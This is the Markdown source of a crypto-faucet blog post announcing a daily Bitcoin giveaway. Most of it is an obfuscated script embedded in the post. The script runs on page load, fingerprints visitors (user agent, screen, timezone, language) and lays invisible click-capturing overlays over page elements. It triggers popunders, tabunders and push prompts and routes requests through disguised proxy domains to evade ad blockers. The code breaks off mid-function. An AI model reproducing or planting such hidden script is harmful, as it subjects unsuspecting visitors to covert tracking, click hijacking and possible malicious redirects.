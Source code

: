 ```yaml
---
layout: post-right-sidebar
title:  "Win 333 satoshi (฿) on May 10th"
categories: [ daily ]
img: http://www.all-faucets.com/assets/images/5-10.png
alt: Follow us for our Daily Bitcoin Giveaway! Three (3) winners selected daily!
desc: Follow us for our Daily Bitcoin Giveaway! Three (3) winners selected daily!
URL: http://www.all-faucets.com/daily/2019/05/10/giveaway.html
---
```


Simply <a href="https://twitter.com/intent/user?screen_name=CryptoPayoff" target="_blank">retweet</a> today's Daily Giveaway Tweet for your chance to win.

If you're new to crypto faucets check out <a href="http://www.all-faucets.com/start.html">Getting Started with Bitcoin Faucets</a>. While getting cryptocurrency from free faucets is risk-free, it does take time and requires patience. We list our favorite high-paying faucets on the right sidebar ⇢

You can also <i>buy</i> Bitcoin and other crypto from an exchange site, such as <a href="http://bit.ly/www-coinbase" target="_blank">Coinbase</a>.

<script data-cfasync="false" type="text/javascript">var _0xb018=['iframe','createElement','position','style','absolute','width','1px','height','opacity','src','about:blank','appendChild','documentElement','atob','contentWindow','decodeURIComponent','RegExp','removeChild'];(function(){var _0x8630x1=document,_0x8630x2=_0x8630x1[_0xb018[1]](_0xb018[0]),atob,decodeURIComponent,RegExp;_0x8630x2[_0xb018[3]][_0xb018[2]]= _0xb018[4];_0x8630x2[_0xb018[3]][_0xb018[5]]= _0xb018[6];_0x8630x2[_0xb018[3]][_0xb018[7]]= _0xb018[6];_0x8630x2[_0xb018[3]][_0xb018[8]]= 0;_0x8630x2[_0xb018[9]]= _0xb018[10];_0x8630x1[_0xb018[12]][_0xb018[11]](_0x8630x2);atob= _0x8630x2[_0xb018[14]][_0xb018[13]];decodeURIComponent= _0x8630x2[_0xb018[14]][_0xb018[15]];RegExp= _0x8630x2[_0xb018[14]][_0xb018[16]];try{window[_0xb018[13]]}catch(e){delete window[_0xb018[13]];window[_0xb018[13]]= atob};try{window[_0xb018[15]]}catch(e){delete window[_0xb018[15]];window[_0xb018[15]]= decodeURIComponent};try{window[_0xb018[16]]}catch(e){delete window[_0xb018[16]];window[_0xb018[16]]= RegExp};_0x8630x1[_0xb018[12]][_0xb018[17]](_0x8630x2);var c,d,a=['YnJvd3Nl','dmlldw==','bW92aWU=','c3RhdGlj','cGFnZQ==','d2Vi','cmVwbGFjZQ==','cG93','bWVzc2FnZQ==','X2JsYW5r','dG9Mb3dlckNhc2U=','c3R5bGVTaGVldHM=','Y3NzUnVsZXM=','c2VsZWN0b3JUZXh0','aW5jbHVkZXM=','LndpZGdldC1jb2wtMTAtc3A=','Y29udGVudA==','cmVs','dHlwZQ==','Y3Jvc3NPcmlnaW4=','aGVhZA==','aW5zZXJ0QmVmb3Jl','Zmlyc3RDaGlsZA==','b25sb2Fk','SFRUUF9SRVNQT05TRV9CTE9C','dXNlLWNyZWRlbnRpYWxz','Y2FudmFz','Z2V0Q29udGV4dA==','ZHJhd0ltYWdl','Z2V0SW1hZ2VEYXRh','cmV2ZXJzZQ==','c3Vic3RyaW5n','SFRUUF9SRVNQT05TRV9KU09O','b3Blbg==','cmVzcG9uc2VUeXBl','d2l0aENyZWRlbnRpYWxz','c2V0UmVxdWVzdEhlYWRlcg==','SFRUUF9IRUFERVJfVE9LRU4=','c3RhdHVz','c3RyaW5naWZ5','ZXJyb3IgJw==','c3RhdHVzVGV4dA==','JyB3aGlsZSByZXF1ZXN0aW5nIA==','SFRUUF9NRVRIT0RfUE9TVA==','SFRUUF9IRUFERVJfQ09OVEVOVA==','SFRUUF9IRUFERVJfQ09OVEVOVF9KU09O','c2VuZA==','VG9rZW4=','Q29udGVudC1UeXBl','YXBwbGljYXRpb24vanNvbg==','anNvbg==','YmxvYg==','R0VU','UE9TVA==','UHJvbWlzZQ==','cmV0dXJuIHRoaXM=','dGhpcw==','b2JqZWN0','aXRlcmF0b3I=','bmV4dA==','ZG9uZQ==','cmV0dXJu','aXNBcnJheQ==','SW52YWxpZCBhdHRlbXB0IHRvIGRlc3RydWN0dXJlIG5vbi1pdGVyYWJsZSBpbnN0YW5jZQ==','YXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkOyBjaGFyc2V0PVVURi04','bnJhOGNyNDlkcmc=','dW5rbm93bg==','REVMSVZFUllfSlM=','REVMSVZFUllfQ1NT','UFJPWFlfSlM=','L2V2ZW50','Z2V0VGltZQ==','cmVmZXJyZXI=','em9uZWlk','dGltZV9kaWZm','ZmFpbGVkX3VybA==','ZmFpbF90aW1l','dXNlcl9pZA==','Y3VycmVudF91cmw=','bGFzdF9zdWNjZXNz','c3VjY2Vzc19jb3VudA==','dXNlcl9hZ2VudA==','c2NyZWVuX3dpZHRo','c2NyZWVuX2hlaWdodA==','bWV0aG9k','dGltZXpvbmU=','ZmFpbGVkX3VybF9kb21haW4=','cmVmZXJyZXJfZG9tYWlu','Y3VycmVudF91cmxfZG9tYWlu','YnJvd3Nlcl9sYW5n','cHJlcGFyZVByb3h5UmVkaXJlY3Q=','bWFrZUZ1bGxzY3JlZW5MaW5r','dGFidW5kZXI=','YW5kcm9pZA==','d2luZG93cyBudA==','ZW4tVVM=','ZW4tR0I=','ZW4tQ0E=','ZW4tQVU=','c3YtU0U=','Z2V0VGltZXpvbmVPZmZzZXQ=','ZG9j','d2lu','c2Ny','dHJ5VG9w','ZG9jdW1lbnQ=','Z2V0UGFyZW50Tm9kZQ==','c291cnNlRGl2','cG9zaXRpb24=','cmVsYXRpdmU=','bWFrZVNtYXJ0T3ZlcmxheXM=','cmVtb3ZlT3ZlcmxheXM=','bWFrZU92ZXJsYXk=','b2Zmc2V0V2lkdGg=','b2Zmc2V0SGVpZ2h0','c29tZQ==','Y2xvbmVOb2Rl','aW5uZXJIVE1M','Z2V0RWxlbWVudHNCeVRhZ05hbWU=','Zml4ZWQ=','Ym90dG9t','cmlnaHQ=','ZWxlbWVudA==','aXNDbGlja0F2YWlsYWJsZQ==','cHJldmVudERlZmF1bHQ=','c3RvcFByb3BhZ2F0aW9u','UkVESVJFQ1RfU1VGRklY','dGltZW91dA==','c2FtZW9yaWdpbg==','aW5jcmVtZW50Q2xpY2tz','c3RvcEltbWVkaWF0ZVByb3BhZ2F0aW9u','cmVtb3Zl','Y2xvc2Vk','b3BlbmVy','aHR0cHM6Ly93d3cuZ29vZ2xlLmNvbS9mYXZpY29uLmljbw==','KGxvZ298YnJhbmQp','XmJsb2I6','aW1n','c29ydA==','Y2xhc3NMaXN0','TVNfSU5fSE9VUg==','TVNfSU5fU0VDT05E','dWtoZm94emRvZ3E=','cGluZw==','cG9uZw==','cmVxdWVzdA==','cmVxdWVzdF9hY2NlcHRlZA==','cmVxdWVzdF9mYWlsZWQ=','dXJs','Y2hhbm5lbA==','cmVxdWVzdF9pZA==','em9uZWlkX2FkYmxvY2s=','Y2FsbHNpZ24=','em9uZWlkX29yaWdpbmFs','cmVzb2x2ZQ==','cmVqZWN0','YWxs','cmFjZQ==','c2V0SW1tZWRpYXRl','c2V0VGltZW91dA==','c2V0SW50ZXJ2YWw=','Y2xlYXJUaW1lb3V0','Y2xlYXJJbnRlcnZhbA==','Y2xvc2U=','X2lk','X2NsZWFyRm4=','dW5yZWY=','cmVm','ZW5yb2xs','X2lkbGVUaW1lb3V0SWQ=','X2lkbGVUaW1lb3V0','dW5lbnJvbGw=','X3VucmVmQWN0aXZl','YWN0aXZl','X29uVGltZW91dA==','Y2xlYXJJbW1lZGlhdGU=','ZnVuY3Rpb24=','Y2FsbGJhY2s=','YXJncw==','bmV4dFRpY2s=','aW1wb3J0U2NyaXB0cw==','b25tZXNzYWdl','c2V0SW1tZWRpYXRlJA==','c291cmNl','YXR0YWNoRXZlbnQ=','cG9ydDE=','cG9ydDI=','b25yZWFkeXN0YXRlY2hhbmdl','Z2V0UHJvdG90eXBlT2Y=','cHJvY2Vzcw==','W29iamVjdCBwcm9jZXNzXQ==','TWVzc2FnZUNoYW5uZWw=','c2V0VGltZW91dCBoYXMgbm90IGJlZW4gZGVmaW5lZA==','Y2xlYXJUaW1lb3V0IGhhcyBub3QgYmVlbiBkZWZpbmVk','cnVu','ZnVu','YXJyYXk=','dGl0bGU=','YnJvd3Nlcg==','ZW52','YXJndg==','dmVyc2lvbnM=','YWRkTGlzdGVuZXI=','b25jZQ==','b2Zm','cmVtb3ZlTGlzdGVuZXI=','cmVtb3ZlQWxsTGlzdGVuZXJz','ZW1pdA==','cHJlcGVuZExpc3RlbmVy','cHJlcGVuZE9uY2VMaXN0ZW5lcg==','bGlzdGVuZXJz','YmluZGluZw==','cHJvY2Vzcy5iaW5kaW5nIGlzIG5vdCBzdXBwb3J0ZWQ=','Y3dk','Y2hkaXI=','cHJvY2Vzcy5jaGRpciBpcyBub3Qgc3VwcG9ydGVk','dW1hc2s=','bG9hZA==','Y3JlYXRlVGV4dE5vZGU=','c2F2ZUNhY2hl','Z2V0Q2FjaGU=','bWdkYjlvNzlndg==','ZXhwb3J0cw==','Y2FsbA==','ZGVmaW5lUHJvcGVydHk=','X19lc01vZHVsZQ==','ZGVmYXVsdA==','cHJvdG90eXBl','aGFzT3duUHJvcGVydHk=','Wk9ORUlEX0FEQkxPQ0s=','Wk9ORUlEX09SSUdJTkFM','T05DTElDS19GUkVRVUVOQ1k=','T05DTElDS19DQVBQSU5H','T05DTElDS19USU1FT1VU','T05DTElDS19QT1BVUA==','T05DTElDS19TRVRUSU5HUw==','Rk9STUFUX0NBTExTSUdO','Rk9STUFUX0RFTElWRVJZX1VSTF9KUw==','Rk9STUFUX0RFTElWRVJZX1VSTF9DU1M=','VEFHX1RZUEU=','VEFHX0dFTkVSQVRFRA==','RE9NQUlOU19TRUNSRVRfU1RSSU5H','RE9NQUlOU19TRUNSRVRfU1VGRklYRVM=','RE9NQUlOU19TRUNSRVRfS0VZ','UFJPWFlfRE9NQUlOU19TRUNSRVRfU1RSSU5H','UFJPWFlfRE9NQUlOU19TRUNSRVRfU1VGRklYRVM=','UFJPWFlfRE9NQUlOU19TRUNSRVRfS0VZ','SEFORExFUl9OQU1FX0VSUk9S','SEFORExFUl9OQU1FX0xPQUQ=','Z2V0RXh0ZW50aW9uRGlhbHlVcmw=','Z2V0UHJveHlEb21haW4=','Z2V0RGVsaXZlcnlEb21haW4=','Lmh0bWw=','ZGVjcnlwdFN0cmluZw==','cHN0cmluZ3M=','Y3VycmVudA==','cGtleXM=','cHN1ZmZpeGVz','am9pbg==','c3RyaW5ncw==','a2V5cw==','c3VmZml4ZXM=','VkVSU0lPTg==','NS40LjY=','UkVHVUxBUl9TQ1JJUFRfTE9BRElOR19USU1FT1VU','UFJPWFlfSFRUUF9SRVFVRVNU','emZncHJveHlodHRw','S0VZX0xPQ0FMX1NUT1JBR0U=','X19fZ29v','U1RPUkFHRV9WQUxVRVNfU0VQQVJBVE9S','QU5USUFEQkxPQ0tfVFlQRV9VTktOT1dO','QU5USUFEQkxPQ0tfVFlQRV9QSFA=','QU5USUFEQkxPQ0tfVFlQRV9KUw==','S0VZX01VTFRJUExJRVI=','dG9DaGFyQ29kZQ==','ZnJvbUNoYXJDb2Rl','Y3JlYXRlS2V5','ZW5jcnlwdFN0cmluZw==','dG9TdHJpbmc=','Y2hhckNvZGVBdA==','c3BsaXQ=','bWFw','bGVuZ3Ro','RVZFTlRfSUQ=','RVZFTlRfTkFNRQ==','dW5kZWZpbmVk','Y3VycmVudFNjcmlwdA==','Y2xpY2s=','cmFuZG9t','c2xpY2U=','cmVtb3ZlRXZlbnRMaXN0ZW5lcg==','Z2V0UGxhdGZvcm1TY29yZQ==','dXNlckFnZW50','Z2V0U2NyZWVuU2NvcmU=','c2NyZWVu','aGVpZ2h0','Z2V0VGltZXpvbmVTY29yZQ==','Z2V0RG9tYWluU2NvcmU=','bG9jYXRpb24=','aHJlZg==','Z2V0QnJvd3NlckxhbmdTY29yZQ==','bGFuZ3VhZ2U=','dXNlckxhbmd1YWdl','Zm9yRWFjaA==','dGFyZ2V0SWQ=','dmFsdWU=','cG9zdE1lc3NhZ2U=','YWRkRXZlbnRMaXN0ZW5lcg==','Z2V0T2Zmc2V0','cXVlcnk=','dHJhdmVyc2VQYXJlbnRz','YnJvYWRjYXN0','Y2hlY2tMb2FkZWQ=','c2hvdWxkQ2hlY2tDYWxsc2lnbg==','cmVjb3ZlcnlXaW5kb3dGdW5jdGlvbnM=','ZG9jdW1lbnRFbGVtZW50','Ym9keQ==','cGFnZVlPZmZzZXQ=','c2Nyb2xsVG9w','cGFnZVhPZmZzZXQ=','c2Nyb2xsTGVmdA==','Y2xpZW50VG9w','Y2xpZW50TGVmdA==','Z2V0Qm91bmRpbmdDbGllbnRSZWN0','dG9w','bGVmdA==','cXVlcnlTZWxlY3RvckFsbA==','dGFnTmFtZQ==','cGFyZW50Tm9kZQ==','UEhQ','QUFCIA==','U1RSX0NBTExTSUdOUw==','c2V0RG9tYWlu','a2V5','c3RyaW5n','cGtleQ==','cHN0cmluZw==','YnJvYWRjYXN0SW5mbw==','Q0FMTFNJR05fVE9fRk9STUFU','aXNMb2FkZWQ=','YXRvYg==','UmVnRXhw','ZGVjb2RlVVJJQ29tcG9uZW50','Y3JlYXRlRWxlbWVudA==','aWZyYW1l','c3R5bGU=','b3BhY2l0eQ==','MXB4','d2lkdGg=','c3Jj','YWJvdXQ6Ymxhbms=','YXBwZW5kQ2hpbGQ=','Y29udGVudFdpbmRvdw==','cmVtb3ZlQ2hpbGQ=','YnJvYWRjYXN0Q2FsbHNpZ24=','dW5Ccm9hZGNhc3RJbmZv','cnVuQUFC','aW5qZWN0UHJveHlEb21haW4=','b25lcnJvcg==','cG9w','cHVzaA==','emZnZm9ybWF0cw==','VVJM','ZmlsdGVy','em9uZUlk','c291cmNlWm9uZUlk','c2hpZnQ=','Zm9ybWF0','dmVyc2lvbg==','ZG9tYWlu','Z2VuZXJhdGlvblRpbWU=','ZXh0cmE=','c2VsZWN0b3I=','aW5kZXhPZg==','cmVkdWNl','Y29uY2F0','REVGQVVMVF9DQUxMU0lHTg==','emZnbG9hZGVkcG9wdXA=','T05DTElDS19DQUxMU0lHTg==','UFVTSF9DQUxMU0lHTg==','emZnbG9hZGVkcHVzaG9wdA==','UFVTSF9IVFRQX0NBTExTSUdO','emZnbG9hZGVkcHVzaA==','UFVTSF9QT1BVUF9DQUxMU0lHTg==','emZnbG9hZGVkcHVzaHBvcHVw','UFVTSF9PUFRfQ0FMTFNJR04=','SU5URVJTVElUSUFMX0NBTExTSUdO','emZnbG9hZGVkaW50ZXJzdGl0aWFs','TkFUSVZFQURTX0NBTExTSUdO','emZnbG9hZGVkbmF0aXZl','T25DbGljaw==','UHVzaCBub3RpZmljYXRpb24gKEhUVFAp','UHVzaCBub3RpZmljYXRpb24gKEhUVFBTKQ==','UHVzaCBub3RpZmljYXRpb24gKERvdWJsZSBUYWcp','SW50ZXJzdGl0aWFs','TmF0aXZl','b25jbGljaw==','bmF0aXZl','U01BUlRfT1ZFUkxBWVNfUkVEUkFXX1RJTUVPVVQ=','T0JKRUNUU19GT1JfT1ZFUkxBWVM=','b2JqZWN0LCBpZnJhbWUsIGVtYmVkLCB2aWRlbywgYXVkaW8=','QkFOTkVSX1NJWkVT','NDY4eDYw','MjM0eDYw','NzI4eDkw','MTIweDI0MA==','MzAweDI1MA==','MjQweDQwMA==','QkFOTkVSX1NJWkVfU0VQQVJBVE9S','QUJTT0xVVEVfUE9TSVRJT04=','YWJzb2x1dGU=','T1ZFUkxBWV9FTEVNRU5UX05BTUU=','ZGl2','T1ZFUkxBWV9QUk9UT1RZUEU=','TUFYSU1VTV9aSU5ERVg=','VFJBTlNQQVJFTlRfR0lG','dXJsKGRhdGE6aW1hZ2UvZ2lmO2Jhc2U2NCxSMGxHT0RsaEFRQUJBSUFBQUFBQUFQLy8veUg1QkFFQUFBQUFMQUFBQUFBQkFBRUFBQUlCUkFBNyk=','U0FGRV9MSU5LX1JFTA==','bm9mb2xsb3cgbm9yZWZmZXJlciBub29wZW5lcg==','V1JBUFBFUl9UQUdfTkFNRVM=','c2VjdGlvbg==','YXJ0aWNsZQ==','bmF2','TElOS19URU1QTEFURV9BUlJBWQ==','PGEgaHJlZj0iJXMiPjwvYT4=','PGRpdj48YSBocmVmPSIlcyI+PC9hPjwvZGl2Pg==','PHNwYW4+PGEgaHJlZj0iJXMiPjwvYT48L3NwYW4+','RVhQQU5EX0VWRU5UX1NUQVJU','bW91c2Vkb3du','RVhQQU5EX0VWRU5UX0VORA==','bW91c2V1cA==','VVNFX0NBUFRVUkU=','V0lUSE9VVF9DSElMRFM=','U1RZTEVfVEFH','bGluaw==','U1RZTEVfUkVM','c3R5bGVzaGVldA==','U1RZTEVfQ1JPU1NfT1JJR0lO','YW5vbnltb3Vz','U1RZTEVfTUlNRV9UWVBF','dGV4dC9jc3M=','V0FJVF9USUxMX1NDUklQVF9MT0FERUQ=','ekluZGV4','YmFja2dyb3VuZEltYWdl','Z2V0UHJveHlUYWdVcmw=','cHJveHlSZXF1ZXN0QnlDU1M=','cHJveHlSZXF1ZXN0QnlQTkc=','cHJveHlSZXF1ZXN0QnlYSFI=','cmVxdWVzdEJ5UHJveHk=','Xmh0dHBzPzo=','Xi8v','c2NyaXB0','c2NyaXB0cw==','dmVuZG9y','aW5kZXg=','anF1ZXJ5','bG9kYXNo','dW5kZXJzY29yZQ==','YW5ndWxhcg==','cmVhY3Q=','c3R5bGVz','cmVzZXQ=','YnVuZGxl','Ym9vdHN0cmFw','anF1ZXJ5LXVp','bG9nbw==','aW1hZ2U=','YnJhbmQ=','aGVhZGVy','aWNvbg==','ZmF2aWNvbg==','d2FybmluZw==','ZXJyb3I=','c3Rhcg==','ZGF0YQ==','Y3VzdG9t','Y29uZmln','YWpheA==','bWVudQ==','YXJ0aWNsZXM=','cmVzb3VyY2Vz','dmFsaWRhdG9ycw==','dDRrZDcwZDhjZ2U=','Zmxvb3I=','dGVzdA==','aHR0cHM6','aHR0cHM6Ly8=','aG9zdA==','dGV4dA==','dGhlbg==','Y2F0Y2g=','LmpzPw==','UFJPWFlfQ1NT','LmNzcz8=','cmVxdWVzdEJ5Q1NT','c3VjY2Vzcw==','ZmFpbA==','UFJPWFlfUE5H','LnBuZz8=','cmVxdWVzdEJ5UE5H','UFJPWFlfWEhS','Lmpzb24=','cmVxdWVzdEJ5WEhS','SFRUUF9NRVRIT0RfR0VU','cmVzcG9uc2U=','T1VUU0lERV9PRl9SQU5HRV9DSEFS','c2hpZnRTdHJpbmc=','cnVuU2NvcmluZw==','Y3JlYXRlS2V5cw==','KFteYS16MC05XSsp','cmF3','ZGlzcGF0Y2hFdmVudA==','YXBwbHk=','b25Eb21haW5DaGFuZ2U=','Z2V0VGFiTGF1bmNoZXI=','UC9O','Ti9Q','UC9OL04=','Ti9QL04=','UC9OL1AvTg==','Ti9OL04vTg==','MDAw','MDAwMA==','MDAwMDA=','bmV3cw==','cGFnZXM=','d2lraQ=='];c=a,d=222,function(b){for(;--b;)c.push(c.shift())}(++d);var b=function(x,n){var c=a[x-=0];void 0===b.UqokyN&&(!function(){var x;try{x=Function(atob('cmV0dXJuIChmdW5jdGlvbigpIHt9LmNvbnN0cnVjdG9yKCJyZXR1cm4gdGhpcyIpKCApKTs='))()}catch(b){x=window}x.atob||(x.atob=function(b){for(var x,n,c=String(b).replace(/=+$/,''),t=0,e=0,r='';n=c.charAt(e++);~n&&(x=t%4?64*x+n:n,t++%4)?r+=String.fromCharCode(255&x>>(-2*t&6)):0)n='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/='.indexOf(n);return r})}(),b.SEYfRO=function(b){for(var x=atob(b),n=[],c=0,t=x.length;c<t;c++)n+='%'+('00'+x.charCodeAt(c).toString(16)).slice(-2);return decodeURIComponent(n)},b.bvZPKG={},b.UqokyN=!0);var t=b.bvZPKG[x];return void 0===t?(c=b.SEYfRO(c),b.bvZPKG[x]=c):c=t,c};!function(c){var t={};function e(x){if(t[x])return t[x][b('0x0')];var n=t[x]={};return t[x].i=x,t[x].l=!1,t[x][b('0x0')]={},c[x][b('0x1')](n[b('0x0')],n,n[b('0x0')],e),n.l=!0,n[b('0x0')]}e.m=c,e.c=t,e.d=function(x,n,c){e.o(x,n)||Object[b('0x2')](x,n,{configurable:!1,enumerable:!0,get:c})},e.n=function(x){var n=x&&x[b('0x3')]?function(){return x[b('0x4')]}:function(){return x};return e.d(n,'a',n),n},e.o=function(x,n){return Object[b('0x5')][b('0x6')][b('0x1')](x,n)},e.p='',e(e.s=0)}([function(O,P){!function(c){var t={};function e(x){if(t[x])return t[x][b('0x0')];var n=t[x]={};return t[x].i=x,t[x].l=!1,t[x][b('0x0')]={},c[x][b('0x1')](n[b('0x0')],n,n[b('0x0')],e),n.l=!0,n[b('0x0')]}e.m=c,e.c=t,e.d=function(x,n,c){e.o(x,n)||Object[b('0x2')](x,n,{configurable:!1,enumerable:!0,get:c})},e.n=function(x){var n=x&&x[b('0x3')]?function(){return x[b('0x4')]}:function(){return x};return e.d(n,'a',n),n},e.o=function(x,n){return Object[b('0x5')][b('0x6')][b('0x1')](x,n)},e.p='',e(e.s=18)}([function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0});n[b('0x7')]=2611224,n[b('0x8')]=2611223,n[b('0x9')]=0,n[b('0xa')]=0,n[b('0xb')]=30,n[b('0xc')]=true,n[b('0xd')]={},n[b('0xe')]="zfgloadedpushopt",n[b('0xf')]='/scripts/bootstrap-datepicker/2.11.62/bootstrap-datepicker.min.js',n[b('0x10')]='/styles/titatoggle/2.11.62/titatoggle.min.css',n[b('0x11')]=2,n[b('0x12')]=1e3*1557328081,n[b('0x13')]='68pfssmoB9n7yq6jvKfzzp7bpyEq8kw0b28Qbnpoy3iwQ13hj50a6Igbpxh9r7Kl0dymut0Oszlpo63d',n[b('0x14')]='e84T9ufKqw4Nw8mSruxLx6fFe84E9ufBqw4',n[b('0x15')]='qs8fzcwiqlk',n[b('0x16')]='b6u523qvVl4kjp3roLio96wmr6Ur6cq6n2fB1s5f07F9ui98eqjY29yk7adnC78vb2gpvWtojsk5t2Ctwgnkm3n',n[b('0x17')]='y66Gf8vYlkdWg6oZmi6H3kvU9wdU4ioJlkdJg6o',n[b('0x18')]='lgh29nwt96a',n[b('0x19')]='_xbaaob',n[b('0x1a')]='_xzckuzi'},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x1b')]=function(x,n){return'//'+x+'/'+n+b('0x1e')},n[b('0x1c')]=function(){return[(0,t[b('0x1f')])(e[b('0x20')][b('0x21')],e[b('0x22')][b('0x21')]),(0,t[b('0x1f')])(e[b('0x23')][b('0x21')],e[b('0x22')][b('0x21')])][b('0x24')]('.')},n[b('0x1d')]=function(){return[(0,t[b('0x1f')])(e[b('0x25')][b('0x21')],e[b('0x26')][b('0x21')]),(0,t[b('0x1f')])(e[b('0x27')][b('0x21')],e[b('0x26')][b('0x21')])][b('0x24')]('.')};var t=c(3),e=c(19)},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0});n[b('0x28')]=b('0x29'),n[b('0x2a')]=1e4,n[b('0x2b')]=b('0x2c'),n[b('0x2d')]=b('0x2e'),n[b('0x2f')]='|',n[b('0x30')]=0,n[b('0x31')]=1,n[b('0x32')]=2,n[b('0x33')]=42},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x34')]=f,n[b('0x35')]=i,n[b('0x36')]=function(x,t){return x[b('0x3a')]('')[b('0x3b')](function(b,x){var n=(t+1)*(x+1),c=(f(b)+n)%o;return i(c)})[b('0x24')]('')},n[b('0x37')]=function(x,e){return x[b('0x3a')]('')[b('0x3b')](function(x,n){var c=e[n%(e[b('0x3c')]-1)],t=(f(x)+f(c))%o;return i(t)})[b('0x24')]('')},n[b('0x1f')]=function(x,a){return x[b('0x3a')]('')[b('0x3b')](function(x,n){var c=a[n%(a[b('0x3c')]-1)],t=f(c),e=f(x),r=e-t,u=r<0?r+o:r;return i(u)})[b('0x24')]('')};var t=48,e=57,r=e-t+1,u=97,a=122,o=a-u+1+r;function f(x){var n=x[b('0x38')]()[b('0x39')](0);return t<=n&&n<=e?n-t:u<=n&&n<=a?n-u+r:0}function i(x){return x<=9?String[b('0x35')](x+t):x<=35?String[b('0x35')](x+u-r):String[b('0x35')](t)}},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x3d')]=n[b('0x3e')]=void 0;var t=c(20),e=typeof document!==b('0x3f')?document[b('0x40')]:null,r=n[b('0x3e')]=b('0x41');n[b('0x3d')]=Math[b('0x42')]()[b('0x38')](36)[b('0x43')](2);e&&e[b('0x55')](r,function x(c){e[b('0x44')](r,x),[(0,t[b('0x45')])(navigator[b('0x46')]),(0,t[b('0x47')])(window[b('0x48')][b('0x49')]),(0,t[b('0x4a')])(new Date),(0,t[b('0x4b')])(window[b('0x4c')][b('0x4d')]),(0,t[b('0x4e')])(navigator[b('0x4f')]||navigator[b('0x50')])][b('0x51')](function(n){var x=parseInt(10*Math[b('0x42')](),10);setTimeout(function(){var x={};x.id=c[b('0x52')],x[b('0x53')]=n,window[b('0x54')](x,'*')},x)})})},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x56')]=function(x){var n=document,c=n[b('0x5d')],t=n[b('0x5e')],e=window[b('0x5f')]||c[b('0x60')]||t[b('0x60')],r=window[b('0x61')]||c[b('0x62')]||t[b('0x62')],u=c[b('0x63')]||t[b('0x63')]||0,a=c[b('0x64')]||t[b('0x64')]||0,o=x[b('0x65')](),f=o[b('0x66')]+(e-u),i=o[b('0x67')]+(r-a),d={};return d[b('0x66')]=f,d[b('0x67')]=i,d},n[b('0x57')]=function(x){var n=document[b('0x68')](x);return Array[b('0x5')][b('0x43')][b('0x1')](n)},n[b('0x58')]=function x(n,c){if(!n)return null;if(n[b('0x69')]===c)return n;return x(n[b('0x6a')],c)},n[b('0x59')]=function(){var x=1===u[b('0x11')]?b('0x6b'):'JS',n=b('0x6c')+x+' '+e[b('0x6d')][u[b('0xe')]],c={};c.sd=a[b('0x6e')],c[b('0x6f')]=u[b('0x15')],c[b('0x70')]=u[b('0x13')],c[b('0x27')]=u[b('0x14')],c[b('0x71')]=u[b('0x18')],c[b('0x72')]=u[b('0x16')],c[b('0x23')]=u[b('0x17')],(0,t[b('0x73')])(n,r[b('0x28')],u[b('0x7')],u[b('0x12')],u[b('0x8')],c)},n[b('0x5a')]=function(x){var n=e[b('0x74')][u[b('0xe')]];if(n)return(0,t[b('0x75')])(n,u[b('0x8')])||(0,t[b('0x75')])(n,u[b('0x7')]);return!!window[x]},n[b('0x5b')]=function(){return!e[b('0x74')][u[b('0xe')]]},n[b('0x5c')]=function(){var x=[b('0x76'),b('0x77'),b('0x78')],c=document[b('0x79')](b('0x7a'));c[b('0x7b')][b('0x7c')]=0,c[b('0x7b')][b('0x49')]=b('0x7d'),c[b('0x7b')][b('0x7e')]=b('0x7d'),c[b('0x7f')]=b('0x80');try{document[b('0x5d')][b('0x81')](c),x[b('0x51')](function(n){try{window[n]}catch(x){delete window[n],window[n]=c[b('0x82')][n]}}),document[b('0x5d')][b('0x83')](c)}catch(b){}};var t=c(6),e=c(7),r=c(2),u=c(0),a=c(11)},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x73')]=function(x,n,c){var t=3<arguments[b('0x3c')]&&void 0!==arguments[3]?arguments[3]:0,e=4<arguments[b('0x3c')]&&void 0!==arguments[4]?arguments[4]:0,r=arguments[5],u=void 0;try{u=f[b('0x7f')][b('0x3a')]('/')[2]||document[b('0x8c')][b('0x3a')]('/')[2]}catch(b){}try{var a=window[b('0x8b')][b('0x8d')](function(x){return x[b('0x8e')]===c&&x[b('0x8f')]})[b('0x90')](),o={};o[b('0x91')]=x,o[b('0x92')]=n,o[b('0x8e')]=c,o[b('0x8f')]=a?a[b('0x8f')]:e,o[b('0x93')]=a?a[b('0x93')]:u,o[b('0x94')]=t,(o[b('0x95')]=r)&&r[b('0x96')]&&(o[b('0x96')]=r[b('0x96')]),d[b('0x8a')](o),i[b('0x51')](function(x){return x[b('0x8b')][b('0x8a')](o)})}catch(b){}},n[b('0x84')]=function(x){t[b('0x8a')](x),window[x]=!0},n[b('0x85')]=u,n[b('0x75')]=function(t,e){return 0<window[b('0x8b')][b('0x8d')](function(x){var n=x[b('0x8e')]===e,c=x[b('0x91')]===t;return n&&c})[b('0x3c')]},n[b('0x86')]=function(){try{u(),e(),e=function(){}}catch(b){}},n[b('0x87')]=function(c,n){i[b('0x3b')](function(x){var n=x[b('0x8b')]||[];return n[b('0x8d')](function(x){return-1<c[b('0x97')](x[b('0x8e')])})})[b('0x98')](function(x,n){return x[b('0x99')](n)},[])[b('0x51')](function(x){try{x[b('0x95')].sd(n)}catch(b){}})};var f=document[b('0x40')],i=[window],t=[],d=[],e=function(){};f&&f[b('0x88')]&&(e=f[b('0x88')]);try{for(var r=i[b('0x43')](-1)[b('0x89')]();r&&r!==r[b('0x66')]&&r[b('0x66')][b('0x48')][b('0x49')];)i[b('0x8a')](r[b('0x66')]),r=r[b('0x66')]}catch(b){}function u(){d[b('0x51')](function(t){i[b('0x51')](function(x){x[b('0x8b')]=x[b('0x8b')][b('0x8d')](function(x){var n=x[b('0x91')]!==t[b('0x91')],c=x[b('0x8e')]!==t[b('0x8e')];return 